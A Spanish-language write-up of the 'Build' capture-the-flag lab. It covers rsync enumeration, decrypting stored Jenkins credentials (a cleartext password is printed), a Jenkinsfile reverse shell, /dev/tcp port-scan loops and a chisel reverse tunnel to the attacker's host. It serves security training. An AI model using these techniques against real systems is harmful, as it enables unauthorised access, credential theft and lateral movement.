







# Resolución maquina Build

**Autor:** PepeMaquina.
**Fecha:** 15 Marzo de 2026.
**Dificultad:** Medium.
**Sistema Operativo:** Linux.
**Tags:** Jenkins, Contenedores, Pivoting, rlogin.

---
## Imagen de la Máquina

*Imagen: Build.JPG*
## Reconocimiento Inicial
### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 4000 -n -Pn 10.129.234.169 -oG networked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p22,53,512,513,514,873,3000 10.129.234.169 -oN targeted 
~~~
### Enumeración de Servicios
~~~ 
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 47:21:73:e2:6b:96:cd:f9:13:11:af:40:c8:4d:d6:7f (ECDSA)
|_  256 2b:5e:ba:f3:72:d3:b3:09:df:25:41:29:09:f4:7b:f5 (ED25519)
53/tcp   open  domain  PowerDNS
| dns-nsid: 
|   NSID: pdns (70646e73)
|_  id.server: pdns
512/tcp  open  exec    netkit-rsh rexecd
513/tcp  open  login?
514/tcp  open  shell   Netkit rshd
873/tcp  open  rsync   (protocol version 31)
3000/tcp open  http    Golang net/http server
|_http-title: Gitea: Git with a cup of tea
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK

~~~
Existen puertos inusuales como 512,513,514 que funcionan como un protocolo de comunicacion como telnet, inseguro pero .
### Enumeración de la página web
En esta ocasión los unicos puertos que se puedan probar con el 512,513 y 514 pero estas requieren contraseña para realizar alguna acción o ejecución de comandos.
El servicio DNS tampoco entrega informacion util como dominios o cosas asi.
Al realizar la enumeración de la página web, se puede ver que se trata de gitea, un repositorio tal como github, con un repositorio publico disponible.

Este contiene un archivo `jenkinsfile` que no realiza nada en especial, solo una verificacion simple que siempre entrega verdadero pero nada mas fuera de ello.
### Enumeración rsync
Otro puerto que se debe revisar es el 873, es un servicio `rsync`, este puede almacenar ciertos archivos o carpetas compartidas.
Para enumerarlo primero se ven los archivos que existen y se pueden ver sin tener credenciales.
~~~bash
┌──(kali㉿kali)-[~/htb/build/nmap]
└─$ rsync -av "rsync://10.129.234.169/"
backups         backups
~~~
Existe una carpeta compartido `backups`, ahora se ven los elementos internos.
~~~bash
┌──(kali㉿kali)-[~/htb/build/nmap]
└─$ rsync -av --list-only "rsync://10.129.234.169/backups"
receiving incremental file list
drwxr-xr-x          4,096 2024/05/02 09:26:31 .
-rw-r--r--    376,289,280 2024/05/02 09:26:19 jenkins.tar.gz
~~~
Existe un archivo comprimido de `jenkins`, asi que se procede a descargarlo.
~~~bash
┌──(kali㉿kali)-[~/htb/build/content]
└─$ rsync -av "rsync://10.129.234.169/backups" ./rsync 
receiving incremental file list
./
jenkins.tar.gz

sent 50 bytes  received 376,381,276 bytes  892,956.88 bytes/sec
total size is 376,289,280  speedup is 1.00
~~~
Para descargarlo se debe tomar un tiempo debido a que es un archivo pesado.

Luego de esperar por la descarga, se descomprime y se ve todo el contenido.
~~~bash
┌──(kali㉿kali)-[~/htb/build/content/rsync]
└─$ tar -xf jenkins.tar.gz 
                                                                                                                                                            
┌──(kali㉿kali)-[~/htb/build/content/rsync]
└─$ cd jenkins_configuration 
                                                                                                                                                            
┌──(kali㉿kali)-[~/…/build/content/rsync/jenkins_configuration]
└─$ ls
caches
com.cloudbees.hudson.plugins.folder.config.AbstractFolderConfiguration.xml
config.xml
copy_reference_file.log
fingerprints
hudson.model.UpdateCenter.xml
hudson.plugins.build_timeout.global.GlobalTimeOutConfiguration.xml
hudson.plugins.build_timeout.operations.BuildStepOperation.xml
hudson.plugins.git.GitSCM.xml
hudson.plugins.git.GitTool.xml
hudson.plugins.timestamper.TimestamperConfig.xml
hudson.tasks.Mailer.xml
hudson.tasks.Shell.xml
hudson.triggers.SCMTrigger.xml
identity.key.enc
io.jenkins.plugins.junit.storage.JunitTestResultStorageConfiguration.xml
jenkins.fingerprints.GlobalFingerprintConfiguration.xml
jenkins.install.InstallUtil.lastExecVersion
jenkins.install.UpgradeWizard.state
jenkins.model.ArtifactManagerConfiguration.xml
jenkins.model.GlobalBuildDiscarderConfiguration.xml
jenkins.model.JenkinsLocationConfiguration.xml
jenkins.security.ResourceDomainConfiguration.xml
jenkins.tasks.filters.EnvVarsFilterGlobalConfiguration.xml
jenkins.telemetry.Correlator.xml
jobs
logs
nodeMonitors.xml
nodes
org.jenkinsci.plugin.gitea.servers.GiteaServers.xml
org.jenkinsci.plugins.displayurlapi.DefaultDisplayURLProviderGlobalConfiguration.xml
org.jenkinsci.plugins.workflow.flow.FlowExecutionList.xml
org.jenkinsci.plugins.workflow.flow.GlobalDefaultFlowDurabilityLevel.xml
org.jenkinsci.plugins.workflow.libs.GlobalLibraries.xml
plugins
queue.xml.bak
secret.key
secret.key.not-so-secret
secrets
updates
userContent
users
war
workspace
~~~
Este archivo contiene todo un proyecto de `Jenkins`, por lo que se realiza la enumeracion de Jenkins.
Lo primero es ver el archivo de configuración `config.xml`, pero no se logra encontrar algo util.
Lo siguiente es revisar los usuarios y ver posibles credenciales.
~~~bash
┌──(kali㉿kali)-[~/…/build/content/rsync/jenkins_configuration]
└─$ cd users 
                                                                                                                                                            
┌──(kali㉿kali)-[~/…/content/rsync/jenkins_configuration/users]
└─$ ls
admin_8569439066427679502  users.xml
~~~
Se logra ver un usuario, con ello se ver el archivo de configuracion y se logra encontrar una contraseña hasheada.
~~~bash
┌──(kali㉿kali)-[~/…/content/rsync/jenkins_configuration/users]
└─$ cd admin_8569439066427679502 
                                                                                                                                                            
┌──(kali㉿kali)-[~/…/rsync/jenkins_configuration/users/admin_8569439066427679502]
└─$ ls
config.xml
                                                                                                                                                            
┌──(kali㉿kali)-[~/…/rsync/jenkins_configuration/users/admin_8569439066427679502]
└─$ cat config.xml              
<?xml version='1.1' encoding='UTF-8'?>
<user>
  <version>10</version>
  <id>admin</id>
<----SNIP---->
    </jenkins.model.experimentalflags.UserExperimentalFlagsProperty>
    <hudson.security.HudsonPrivateSecurityRealm_-Details>
      <passwordHash>#jbcrypt:$2a$10$PaXdGyit8MLC9CEPjgw15.6x0GOIZNAk2gYUTdaOB6NN/9CPcvYrG</passwordHash>
    </hudson.security.HudsonPrivateSecurityRealm_-Details>
    <hudson.tasks.Mailer_-UserProperty plugin="mailer@472.vf7c289a_4b_420">
      <emailAddress>admin@build.vl</emailAddress>
    </hudson.tasks.Mailer_-UserProperty>
  </properties>
</user>  
~~~
Pero al probar con hashcat, este hash no fue descifrable, por lo que se pasa de lado esto y se realiza mas enumeración.

Lo siguiente a realizar para seguir la enumeración es ver los `jobs` que se tiene en creación.
~~~bash
┌──(kali㉿kali)-[~/…/build/content/rsync/jenkins_configuration]
└─$ cd jobs                 
                                                                                                                                                            
┌──(kali㉿kali)-[~/…/content/rsync/jenkins_configuration/jobs]
└─$ ls
build
                                                                                                                                                            
┌──(kali㉿kali)-[~/…/content/rsync/jenkins_configuration/jobs]
└─$ cd build 
                                                                                                                                                            
┌──(kali㉿kali)-[~/…/rsync/jenkins_configuration/jobs/build]
└─$ ls
computation  config.xml  jobs  state.xml
~~~
Existe un `job` llamado `build`, revisando con mas profundidad el como esta construido se revisa el archivo `config.xml`.
~~~xml
<?xml version='1.1' encoding='UTF-8'?>
<jenkins.branch.OrganizationFolder plugin="branch-api@2.1163.va_f1064e4a_a_f3">
  <actions/>
  <description>dev</description>
  <displayName>dev</displayName>
  <properties>
    <jenkins.branch.OrganizationChildHealthMetricsProperty>
      <templates>
        <com.cloudbees.hudson.plugins.folder.health.WorstChildHealthMetric plugin="cloudbees-folder@6.901.vb_4c7a_da_75da_3">
          <nonRecursive>false</nonRecursive>
        </com.cloudbees.hudson.plugins.folder.health.WorstChildHealthMetric>
      </templates>
    </jenkins.branch.OrganizationChildHealthMetricsProperty>
    <jenkins.branch.OrganizationChildOrphanedItemsProperty>
      <strategy class="jenkins.branch.OrganizationChildOrphanedItemsProperty$Inherit"/>
    </jenkins.branch.OrganizationChildOrphanedItemsProperty>
    <jenkins.branch.OrganizationChildTriggersProperty>
      <templates>
        <com.cloudbees.hudson.plugins.folder.computed.PeriodicFolderTrigger plugin="cloudbees-folder@6.901.vb_4c7a_da_75da_3">
          <spec>H H/4 * * *</spec>
          <interval>86400000</interval>
        </com.cloudbees.hudson.plugins.folder.computed.PeriodicFolderTrigger>
      </templates>
    </jenkins.branch.OrganizationChildTriggersProperty>
    <com.cloudbees.hudson.plugins.folder.properties.FolderCredentialsProvider_-FolderCredentialsProperty plugin="cloudbees-folder@6.901.vb_4c7a_da_75da_3">
      <domainCredentialsMap class="hudson.util.CopyOnWriteMap$Hash">
        <entry>
          <com.cloudbees.plugins.credentials.domains.Domain plugin="credentials@1337.v60b_d7b_c7b_c9f">
            <specifications/>
          </com.cloudbees.plugins.credentials.domains.Domain>
          <java.util.concurrent.CopyOnWriteArrayList>
            <com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl plugin="credentials@1337.v60b_d7b_c7b_c9f">
              <id>e4048737-7acd-46fd-86ef-a3db45683d4f</id>
              <description></description>
              <username>buildadm</username>
              <password>{AQAAABAAAAAQUNBJaKiUQNaRbPI0/VMwB1cmhU/EHt0chpFEMRLZ9v0=}</password>
              <usernameSecret>false</usernameSecret>
            </com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
          </java.util.concurrent.CopyOnWriteArrayList>
        </entry>
      </domainCredentialsMap>
    </com.cloudbees.hudson.plugins.folder.properties.FolderCredentialsProvider_-FolderCredentialsProperty>
    <jenkins.branch.NoTriggerOrganizationFolderProperty>
      <branches>.*</branches>
      <strategy>NONE</strategy>
    </jenkins.branch.NoTriggerOrganizationFolderProperty>
  </properties>
  <folderViews class="jenkins.branch.OrganizationFolderViewHolder">
    <owner reference="../.."/>
  </folderViews>
  <healthMetrics/>
  <icon class="jenkins.branch.MetadataActionFolderIcon">
    <owner class="jenkins.branch.OrganizationFolder" reference="../.."/>
  </icon>
  <orphanedItemStrategy class="com.cloudbees.hudson.plugins.folder.computed.DefaultOrphanedItemStrategy" plugin="cloudbees-folder@6.901.vb_4c7a_da_75da_3">
    <pruneDeadBranches>true</pruneDeadBranches>
    <daysToKeep>-1</daysToKeep>
    <numToKeep>-1</numToKeep>
    <abortBuilds>false</abortBuilds>
  </orphanedItemStrategy>
  <triggers>
    <com.cloudbees.hudson.plugins.folder.computed.PeriodicFolderTrigger plugin="cloudbees-folder@6.901.vb_4c7a_da_75da_3">
      <spec>* * * * *</spec>
      <interval>60000</interval>
    </com.cloudbees.hudson.plugins.folder.computed.PeriodicFolderTrigger>
  </triggers>
  <disabled>false</disabled>
  <navigators>
    <org.jenkinsci.plugin.gitea.GiteaSCMNavigator plugin="gitea@1.4.7">
      <serverUrl>http://172.18.0.2:3000</serverUrl>
      <repoOwner>buildadm</repoOwner>
      <credentialsId>e4048737-7acd-46fd-86ef-a3db45683d4f</credentialsId>
      <traits>
        <org.jenkinsci.plugin.gitea.BranchDiscoveryTrait>
          <strategyId>1</strategyId>
        </org.jenkinsci.plugin.gitea.BranchDiscoveryTrait>
        <org.jenkinsci.plugin.gitea.OriginPullRequestDiscoveryTrait>
          <strategyId>1</strategyId>
        </org.jenkinsci.plugin.gitea.OriginPullRequestDiscoveryTrait>
        <org.jenkinsci.plugin.gitea.ForkPullRequestDiscoveryTrait>
          <strategyId>1</strategyId>
          <trust class="org.jenkinsci.plugin.gitea.ForkPullRequestDiscoveryTrait$TrustContributors"/>
        </org.jenkinsci.plugin.gitea.ForkPullRequestDiscoveryTrait>
      </traits>
    </org.jenkinsci.plugin.gitea.GiteaSCMNavigator>
  </navigators>
  <projectFactories>
    <org.jenkinsci.plugins.workflow.multibranch.WorkflowMultiBranchProjectFactory plugin="workflow-multibranch@773.vc4fe1378f1d5">
      <scriptPath>Jenkinsfile</scriptPath>
    </org.jenkinsci.plugins.workflow.multibranch.WorkflowMultiBranchProjectFactory>
  </projectFactories>
  <buildStrategies/>
  <strategy class="jenkins.branch.DefaultBranchPropertyStrategy">
    <properties class="empty-list"/>
  </strategy>
</jenkins.branch.OrganizationFolder> 
~~~
Lo primero que se puede ver en este archivo es la existencia de una credenciales del usuario `buildadm` que es el mismo de gitea, pero esta contraseña esta encriptada, para ello existe una herramienta (https://github.com/hoto/jenkins-credentials-decryptor/releases) pero se necesitan los archivos `master.key`, `hudson.util.Secret` y el `config.xml` que contiene la contraseña encriptada, por suerte estos archivos se encuentrar en el mismo jenkins.
~~~bash
┌──(kali㉿kali)-[~/htb/build/exploits]
└─$ ./jenkins-credentials-decryptor_1.2.2_Linux_x86_64 \
  -m master.key \
  -s hudson.util.Secret -c config.xml \ 
  -o json
[
  {
    "id": "e4048737-7acd-46fd-86ef-a3db45683d4f",
    "password": "Git1234!",
    "username": "buildadm"
  }
]
~~~
Con credenciales encontradas, se intento ingresar por ssh pero no funciono, tambien se intento el ingreso por los puertos 512, 513 y 514 pero tampoco se logro un acceso, por ultimo se inicio sesion en GiTea esperando un repositorio oculto pero tampoco se logro encontrar nada.

Siguiendo con la enumeracion, se leyo el `job` por completo, pasandolo a la IA se entiende que lo que hace es entrar al repositorio del usuario `buildadm`.
Dentro del mismo job, existe otro `job`.
~~~bash
┌──(kali㉿kali)-[~/…/rsync/jenkins_configuration/jobs/build]
└─$ cd jobs 
                                                                                                                                                            
┌──(kali㉿kali)-[~/…/jenkins_configuration/jobs/build/jobs]
└─$ ls
dev
                                                                                                                                                            
┌──(kali㉿kali)-[~/…/jenkins_configuration/jobs/build/jobs]
└─$ cd dev 
                                                                                                                                                            
┌──(kali㉿kali)-[~/…/jobs/build/jobs/dev]
└─$ ls
branches  config.xml  indexing  name-utf8.txt  state.xml
~~~
Viendo el contenido de este archivo de configuracion, se puede entender mejor que es lo que hace el `job` completo.
~~~xml
<?xml version='1.1' encoding='UTF-8'?>
<org.jenkinsci.plugins.workflow.multibranch.WorkflowMultiBranchProject plugin="workflow-multibranch@773.vc4fe1378f1d5">
  <actions/>
  <properties>
    <jenkins.branch.ProjectNameProperty plugin="branch-api@2.1163.va_f1064e4a_a_f3">
      <name>dev</name>
    </jenkins.branch.ProjectNameProperty>
  </properties>
  <folderViews class="jenkins.branch.MultiBranchProjectViewHolder" plugin="branch-api@2.1163.va_f1064e4a_a_f3">
    <owner class="org.jenkinsci.plugins.workflow.multibranch.WorkflowMultiBranchProject" reference="../.."/>
  </folderViews>
  <healthMetrics>
    <com.cloudbees.hudson.plugins.folder.health.WorstChildHealthMetric plugin="cloudbees-folder@6.901.vb_4c7a_da_75da_3">
      <nonRecursive>false</nonRecursive>
    </com.cloudbees.hudson.plugins.folder.health.WorstChildHealthMetric>
  </healthMetrics>
  <icon class="jenkins.branch.MetadataActionFolderIcon" plugin="branch-api@2.1163.va_f1064e4a_a_f3">
    <owner class="org.jenkinsci.plugins.workflow.multibranch.WorkflowMultiBranchProject" reference="../.."/>
  </icon>
  <orphanedItemStrategy class="com.cloudbees.hudson.plugins.folder.computed.DefaultOrphanedItemStrategy" plugin="cloudbees-folder@6.901.vb_4c7a_da_75da_3">
    <pruneDeadBranches>true</pruneDeadBranches>
    <daysToKeep>-1</daysToKeep>
    <numToKeep>-1</numToKeep>
    <abortBuilds>false</abortBuilds>
  </orphanedItemStrategy>
  <triggers>
    <com.cloudbees.hudson.plugins.folder.computed.PeriodicFolderTrigger plugin="cloudbees-folder@6.901.vb_4c7a_da_75da_3">
      <spec>H H/4 * * *</spec>
      <interval>86400000</interval>
    </com.cloudbees.hudson.plugins.folder.computed.PeriodicFolderTrigger>
  </triggers>
  <disabled>false</disabled>
  <sources class="jenkins.branch.MultiBranchProject$BranchSourceList" plugin="branch-api@2.1163.va_f1064e4a_a_f3">
    <data>
      <jenkins.branch.BranchSource>
        <source class="org.jenkinsci.plugin.gitea.GiteaSCMSource" plugin="gitea@1.4.7">
          <id>org.jenkinsci.plugin.gitea.GiteaSCMNavigator::http://172.18.0.2:3000::buildadm::dev</id>
          <serverUrl>http://172.18.0.2:3000</serverUrl>
          <repoOwner>buildadm</repoOwner>
          <repository>dev</repository>
          <credentialsId>e4048737-7acd-46fd-86ef-a3db45683d4f</credentialsId>
          <traits>
            <org.jenkinsci.plugin.gitea.BranchDiscoveryTrait>
              <strategyId>1</strategyId>
            </org.jenkinsci.plugin.gitea.BranchDiscoveryTrait>
            <org.jenkinsci.plugin.gitea.OriginPullRequestDiscoveryTrait>
              <strategyId>1</strategyId>
            </org.jenkinsci.plugin.gitea.OriginPullRequestDiscoveryTrait>
            <org.jenkinsci.plugin.gitea.ForkPullRequestDiscoveryTrait>
              <strategyId>1</strategyId>
              <trust class="org.jenkinsci.plugin.gitea.ForkPullRequestDiscoveryTrait$TrustContributors"/>
            </org.jenkinsci.plugin.gitea.ForkPullRequestDiscoveryTrait>
          </traits>
        </source>
        <strategy class="jenkins.branch.DefaultBranchPropertyStrategy">
          <properties class="empty-list"/>
        </strategy>
      </jenkins.branch.BranchSource>
    </data>
    <owner class="org.jenkinsci.plugins.workflow.multibranch.WorkflowMultiBranchProject" reference="../.."/>
  </sources>
  <factory class="org.jenkinsci.plugins.workflow.multibranch.WorkflowBranchProjectFactory">
    <owner class="org.jenkinsci.plugins.workflow.multibranch.WorkflowMultiBranchProject" reference="../.."/>
    <scriptPath>Jenkinsfile</scriptPath>
  </factory>
</org.jenkinsci.plugins.workflow.multibranch.WorkflowMultiBranchProject> 
~~~
Con ayuda de la IA, lo que se hace el job completo es ir al repositorio de `buildadm` y entrr al repositorio `dev`, de dicho repositorio lee todos los `branch` y ejecuta el archivo `Jenkinsfile`, todo esto cada minuto.
Por lo que se tiene una via de obtener acceso al servidor.
Con las credenciales obtenidas para inicar sesion en Gitea se puede modificar el contenido del `Jenkinsfile` para realizar una reverseshell.

Se probaron varias reverseshells y no se sabe exactamente cual es la que funciona, pero esta es la ultima que se modifico.
Del otro lado configurando un escucha se logra entablar la conexión.
~~~bash
┌──(kali㉿kali)-[~/htb/build/content]
└─$ penelope -p 1234  
[+] Listening for reverse shells on 0.0.0.0:1234 →  127.0.0.1 • 192.168.5.128 • 172.18.0.1 • 172.17.0.1 • 10.10.14.28
[+] Shell upgraded successfully using /usr/bin/script! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/sessions/5ac6c7d6fb8e~10.129.234.169-Linux-x86_64/2026_03_15-19_03_13-424.log 📜
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
root@5ac6c7d6fb8e:/var/jenkins_home/workspace/build_dev_main# 
~~~

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`
### User Flag
Con acceso al servidor ya se puede leer la user flag.
~~~bash
root@5ac6c7d6fb8e:/var# cd 
root@5ac6c7d6fb8e:~# ls
user.txt
root@5ac6c7d6fb8e:~# pwd
/root
root@5ac6c7d6fb8e:~# cat user.txt 
<Encuentre su propia usre flag>
~~~

---
## Escalada de Privilegios
Por lo visto el servicio donde se tiene acceso es dentro de un contenedor.
~~~bash
root@5ac6c7d6fb8e:/var/jenkins_home/workspace# hostname
5ac6c7d6fb8e
~~~
Lo primero que se intento fue obtener credenciales o contraseñas del servidor pero lastimosamente no se logro encontrar alguna.
Tambien se paso LinPeas para enumerar automaticamente pero tampoco se logro encontrar credenciales validas.
Enumerando el directorio `root` se puede ver un archivo `.rhosts`, este archivo contiene las ips o dominios que pueden acceder al servicio `rlogin` (513) sin necesidad de proporcionar contraseña, por lo que puede ser una buena via de ataque.
~~~bash
root@5ac6c7d6fb8e:~# ls -la
total 24
drwxr-xr-x 4 root root 4096 Mar 15 23:08 .
drwxr-xr-x 1 root root 4096 May  9  2024 ..
lrwxrwxrwx 1 root root    9 May  1  2024 .bash_history -> /dev/null
drwx------ 3 root root 4096 Mar 15 23:08 .gnupg
-r-------- 1 root root   35 May  1  2024 .rhosts
drwxr-xr-x 2 root root 4096 May  1  2024 .ssh
-rw------- 1 root root   33 Apr 15  2025 user.txt
root@5ac6c7d6fb8e:~/.ssh# cat .rhosts 
admin.build.vl +
intern.build.vl +
~~~
Se puede ver que existen dos dominios, tanto `admin` como `intern`.
Por lo visto nos encontramos con la ip `172.18.0.3`, teniendo esto en cuenta junto con los dominios, se puede deducir que probablemente existan varios contenedores creados y cada uno con un dominio diferente, por ello la existencia del puerto DNS 53 abierto.

Realizando enumeración de posibles ips existentes en el dominio el comando ping esta desactivado, pero tambien se puede ver directamente los puertos abiertos para cada ip deduciendo las ips.
~~~bash
root@5ac6c7d6fb8e:~/.ssh# for port in {1..65535}; do echo > /dev/tcp/172.18.0.1/$port && echo "$port open"; done 2>/dev/null
22 open
53 open
512 open
513 open
514 open
873 open
3000 open
3306 open
8081 open
root@5ac6c7d6fb8e:~/.ssh# dig
bash: dig: command not found
root@5ac6c7d6fb8e:~/.ssh# for port in {1..65535}; do echo > /dev/tcp/172.18.0.2/$port && echo "$port open"; done 2>/dev/null
22 open
3000 open
root@5ac6c7d6fb8e:~/.ssh# for port in {1..65535}; do echo > /dev/tcp/172.18.0.4/$port && echo "$port open"; done 2>/dev/null
3306 open
root@5ac6c7d6fb8e:~/.ssh# for port in {1..65535}; do echo > /dev/tcp/172.18.0.5/$port && echo "$port open"; done 2>/dev/null
53 open
8081 open
root@5ac6c7d6fb8e:~/.ssh# for port in {1..65535}; do echo > /dev/tcp/172.18.0.6/$port && echo "$port open"; done 2>/dev/null
80 open
root@5ac6c7d6fb8e:~/.ssh# for port in {1..65535}; do echo > /dev/tcp/172.18.0.7/$port && echo "$port open"; done 2>/dev/null
~~~
Con esto obtenido se sabe que existen ips hasta la `172.18.0.6`.
Cada una de estas Ips con sus respectivos puertos, evidentemente la ip `172.18.0.1` es el servidor principal y se encuentra con los puertos enumerados al principio pero  tambien los puertos 3306 y 8081 adicionales.
La ip `172.18.0.2` solo tiene el puerto 22 abierto y 3000 que lo mas probable es que sea el GiTea corriendo, esto tambien se puede ver por como esta configurado jenkins.
La ip `172.18.0.3` es jenkins por ende es la que yo estoy y no hace falta enumerarlo.
La ip `172.18.0.4` tiene los puertos 3306, que seguramente es el mismo que la `172.18.0.1`.
La ip `172.18.0.5` tiene los puertos 53 del DNS y 8081 que tambien debe ser de la `172.18.0.1`.
La ip `172.18.0.6` tiene un puerto 80 que no se ve en la principal, por ende puede ser un servicio web hosteado con cosas importantes.
### Pivoting
Para poder conectarse mas facilmente a todos los servicios de los contenedores, se utiliza la herramienta `chisel`.
Primero configurando el Proxy en la kali.
~~~bash
┌──(kali㉿kali)-[/opt/pivote/chisel]
└─$ sudo ./chisel_1.9.1_linux_amd64 server --reverse -v -p 8999 --socks5
2026/03/15 22:07:24 server: Reverse tunnelling enabled
2026/03/15 22:07:24 server: Fingerprint OB/SLknNty6Ik0bFZIxtD08YTD8uXFHBUCn2FKkIMSs=
2026/03/15 22:07:24 server: Listening on http://0.0.0.0:8999
2026/03/15 22:08:10 server: session#1: Handshaking with 10.129.234.169:58098...
2026/03/15 22:08:11 server: session#1: Verifying configuration
~~~
Y desde la maquina victima se conecta.
~~~bash
root@5ac6c7d6fb8e:/tmp# ./chisel_1.9.1_linux_amd64 client -v 10.10.14.28:8999 R:socks
2026/03/16 02:08:16 client: Connecting to ws://10.10.14.28:8999
2026/03/16 02:08:17 client: Handshaking...
2026/03/16 02:08:17 client: Sending config
2026/03/16 02:08:17 client: Connected (Latency 138.025085ms)
2026/03/16 02:08:17 client: tun: SSH connected
